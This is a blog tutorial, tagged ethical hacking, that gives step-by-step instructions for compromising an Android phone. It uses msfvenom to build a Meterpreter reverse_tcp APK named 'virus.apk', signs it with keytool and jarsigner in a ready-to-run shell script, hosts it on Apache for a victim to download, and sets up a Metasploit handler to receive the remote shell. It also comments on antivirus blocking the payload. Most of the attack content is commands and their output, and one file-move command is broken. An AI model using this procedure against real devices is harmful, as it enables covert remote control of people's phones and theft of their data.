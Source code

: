 +++ 
date = "2021-06-03"
title = "Hack an Android device with MSFvenom and Kali Linux"
slug = "Hack an Android device with MSFvenom and Kali Linux"
tags = []
categories = ["Ethical Hacking"]
series = []
+++

There are different ways and tools to hack an Android device, in this post, I will focus on **MSFvenom** to generate an APK which will be installed on the target device and the **Metasploit console** to set up a listener which will be used to interact with the device through the APK installed. Keep in mind that the payload used is not going to work with every Android version, mostly with the recent ones. The main purpose is to show how create a payload and setup a listener, after that we just need to create a server where the victim will download the virus. I found many other tutorials on Google about this topic but they are extremely old and they don't even tell you the Kali version used. You might think that is not important, but when I was looking to learn how to use MSFvenom, many parameters used were not working. Here is a simple example:

```sh
$ msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4444 R > virus.apk
```

So why this is wrong in the first place ? If we paste this command in our terminal, we get this error:

```sh
Error: No options
```

As you can see something is not correct, more specifically "**R**" is not recognized as a parameter, technically this should create our APK as an output file, but if we check the official documentation on the [Offensive Security website](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), we can clearly see that the correct parameter to use is "**-o**":

!["msfvenom-commands"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/msfvenom-commands.png)

This is just a simple tip to take these tutorials as they are right now, because after one year they could already be outdated, even this tutorial created by me of course. If something is not working, check the [documentation](https://www.offensive-security.com/metasploit-unleashed/).

# Requirements

It should be obvious but these are the tools required:

- [Kali Linux](https://www.kali.org/get-kali/) (the version used is **2021.1**)
- An Android device (if you do not have an Android phone, use a VM or an emulator like [Bluestacks](https://www.bluestacks.com/))

You have already installed Kali Linux but you don't remember the correct version ? No problem, use this command in the terminal:

```sh
$ lsb_release -a
```

And you should get the following output:

```sh
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

# Create the payload

Instead of typing 7 different commands in the terminal one by one, we can simply create a shell script to do the job. Open the terminal and use the following command to create a file:

```sh
$ touch createThePayload.sh
```

Make the script created an executable with:

```sh
$ chmod +x createThePayload.sh
```
Copy and paste the following code (of course you have to set your IP and a port like **4444**):

```sh
#!/bin/sh
 
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o virus.apk
 
keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
 
sudo apt-get install default-jdk -y
 
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore virus.apk hacked
 
jarsigner -verify -verbose -certs virus.apk
 
sudo apt-get install zipalign -y
 
zipalign -v 4 virus.apk virus_signed.apk
```

Type **./createThePayload.sh** and hit enter to execute the script, check the output in the terminal to see if everything is correct.

## A quick explanation about the commands used

With **MSFvenom** we set the payload, the host which is our IP, the port and the output as "**virus.apk**". 

The **keytool** command is a key and certificate management utility. We set the keystore file to generate, an alias like **hacked** but you can use what you want just keep in mind this alias when you are using the **jarsigner** command, the algorithm like RSA, the key size, the validity. 

We have to install two packages, **default-jdk** to use the jarsigner in order to sign and verify a Java Archive, **zipalign** which is an archive alignment tool that provides important optimization to Android application (.apk) files. We set the parameter "**-y**" to automatically answer with "yes" to the prompt in the terminal. We need to sign a certificate because Android mobile devices are not allowed to install apps without the appropriately signed certificate. Android devices only install signed .apk files.

# Setup the server

Now to download the APK on a target machine, we could use a server with **Apache**, from here we just need to go the correct url, which is something like "**192.168.1.2/virus_signed.apk**". In order to move the APK created by the script in "**/var/www/html**", we need root permissions. Besides using a command like:

```sh
$ sudo virus_signed.apk /var/www/html/virus_signed.apk
```

You could also use the following command when you know you will be running various commands that need root access and don't want to run each of them with sudo:

```sh
$ sudo -i
```

Check if the **apache2** service is running with:

```sh
$ service apache2 status
```

If you get the following output:

```sh
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: https://httpd.apache.org/docs/2.4/
```

Start the service with:

```sh
$ sudo service apache2 start
```

If we open Firefox and type the IP of our machine (you can get the IP with the terminal by typing **ifconfig**), we get the Debian Page:

!["it-works"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/it-works.png)

And if we search our apk file in the website directory, we can download it:

!["download-apk"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/download-apk.png)

# Setup the listener

And now we have to set our listener with the **msfconsole**, we set the exploit, the payload and the host. The port is already set as 4444 but you change it. After that we will run it and we will download the apk on a mobile device or an emulator, in my case I used my phone. Follow these steps to set the listener:

1. Start the **msfconsole**:

```sh
$ msfconsole
```

2. When the console is ready, type this command (it should be obvious but don't copy "**msf >**" in the terminal):

```sh
msf > use exploit/multi/handler
```

3. Set the host:

```sh
msf > set lhost TypeYourIPHere
```

4. Set the payload:

```sh
msf > set payload android/meterpreter/reverse_tcp
```

5. Run the exploit:

```sh
msf > run
```

Download the apk on the phone, you need to make sure that your Kali machine and your Android device are on the same network.

# Let's test some commands

Some commands will not work, but the main purpose of this video is to show how to make this stuff work, you can always change the payload or even make your own payload. Here is a quick demo:

{{< vimeo 559419552 >}}

# TLDR

With this post you should be able to create a payload for Android, setup a server and a listener to make everything work perfectly. As you can see in the demo, the antivirus is preventing us from installing the APK, in some cases it can also close the connection to our Kali machine. There are other cases where the connection will be closed, unfortunately there isn't a single solution so you will need to try different approaches. Try to check if the architecture used to create the APK is the same used by Android and of course if the antivirus is preventing the payload to work correctly.